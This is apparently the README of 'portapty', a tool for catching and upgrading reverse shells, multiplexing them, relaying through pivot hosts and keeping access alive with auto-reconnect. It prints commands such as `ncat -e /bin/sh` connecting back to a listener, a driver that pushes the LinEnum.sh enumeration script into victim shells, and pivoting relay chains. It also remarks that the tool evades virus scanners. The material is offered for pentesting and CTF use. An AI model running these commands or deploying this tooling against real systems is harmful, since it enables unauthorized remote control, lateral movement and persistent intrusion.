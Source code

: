 # portapty

## What?
This is a portable pseudoterminal reverse shell upgrader and multiplexer
### What?
Portable: works on any linux version that can run this elf type (it's all statically linked and posix compliant)

Pseudoterminal: you can Control-C without killing the shell

Reverse shell: I haven't made it support bind shells yet

Upgrader: When a normal shell connects to it and doesn't try to TLS handshake with it,
it will be upgraded in a posix-compliant manner (this should even work on Linux from scratch boxes)

Multiplexer: multiple shells can connect at once

## Usage
```
portapty {client|server|keygen|relay|expose} OPTIONS
Options:
    client: [cert CERTHASH] to IP PORT [to IP PORT]...
    server: [cert CERTFILE] [key KEYFILE] [driver PATH] [cmd CMD] bind IP PORT [bind IP PORT]...;
    keygen: [cert CERTFILE] [key KEYFILE]
    relay:  bind IP PORT to IP PORT [bind|to IP PORT]...
    expose: [cert CERTFILE] [key KEYFILE] bind IP PORT to IP PORT [{bind|to} IP PORT]...
```
### Server
A simple invocation would be `portapty server eps :: 42069`. This hosts a server on port 42069 that will accept
both standard reverse shells on all IPv4 and v6 addresses (dual to IPv6 dual stacking).

On connection (like by `ncat -e /bin/sh :: 42069`), you will see messages like:
```
[portapty] [::1]:57388 available on /dev/pts/63
```
If you run `screen /dev/pts/63` on this created pty, you will be able to interact with it fully, as if it were an ssh session.

If you had a script you wished to run on the remote, you could try the folowing:

```
portapty server driver 'cat >&2&cat /tmp/LinEnum.sh;echo sleep 1;echo exit;wait' cmd bash eps :: 42069
```

This is good demonstration of the features provided to drivers. Let's break down the shell command argument for driver:
* `cat >&2 &` will grab the output of the remote shell, and pass it to stderr, which is then printed to the server terminal, and then move to the background
* `cat /tmp/LinEnum.sh` will send the script `/tmp/LinEnum.sh` to the remote shell
* `echo sleep 1` sends the command `sleep 1` to the remote shell, giving us time to flush the output before disconnecting
* `echo exit` will tell the remote shell to close
* `wait` will wait for the cat command to finish, which will be when the remote closes
We also can elect to use `bash` rather than the standard shell with the system, which will make most scripts run better.

### Client
It is rather irregular to invoke the client directly, but if you are particularly worried about security, or are working with an arbitrary upload vulnerability, this could be helpful. 

For a simple connection WITHOUT verifying the server, you can use just `portapty client to :: 42069`, but for securing it, you can use:
```
portapty client cert iITKuu8FgIgarNJCo/4mG6mbN0I/p6kytpfTVvB+PCo= to :: 42069
```
This will check that the certificate SHA2-256 hash is `iITKuu8FgIgarNJCo/4mG6mbN0I/p6kytpfTVvB+PCo=`, and fail if it isn't.

### Keygen
If you have an unstable computer/connection, or are trying some HA system, you may wish to use the `keygen` option. An example is the following:

```
portapty keygen key portapty.key cert portapty.crt
```

This will print the fingerprint as well, so that you can prepare clients before starting the server

The server can be to to use the certificate and key like so:

```
portapty server key portapty.key cert portapty.crt
```
### Relay and expose
This is one of the cooler features of portapty. This acts as a simple TCP forwarder, and so allows pivoting with a central server:

```bash
# Main server
portapty server key portapty.key cert portapty.crt bind 10.0.0.1 42069
# Pivot server
portapty relay bind 192.168.0.1 42069 to 10.0.0.10 42069
# Target server
portapty client cert FinGeRpRInt= to 192.168.0.1 42069
```

Since the client is encrypted end-to-end, this unencrypted relay usage is secure. However, `relay` could also be used as a port forwarder, which would not have encryption. I'm not sure how to encrypt this well bidirectionally: feel free to submit a pull request!

### High availability
The release client has a `while(1)` loop to stop temporary disconnects from messing up your network, and paired with multiple endpoint specifications, this can be used to achieve a very resiliant network.

```
# Relay to the first accepting server
portapty relay bind :: 42069 to 10.0.0.1 42069 to 10.0.0.2 42069
# Connect to the first server that accepts us
portapty client to 10.0.0.1 42069 to 10.0.0.2 42069
# Tell upgraded clients to try multiple addresses 
portapty server bind 10.0.0.1 42069 advert 10.0.0.2 42069
```

## Disclaimer
Please don't do anything stupid with this (i.e. anything outside pentesting and ctfs). 
It isn't currently on any virus scanners, and I would prefer it to stay that way. 
It has a easy to detect signature, so it ain't stealthy.
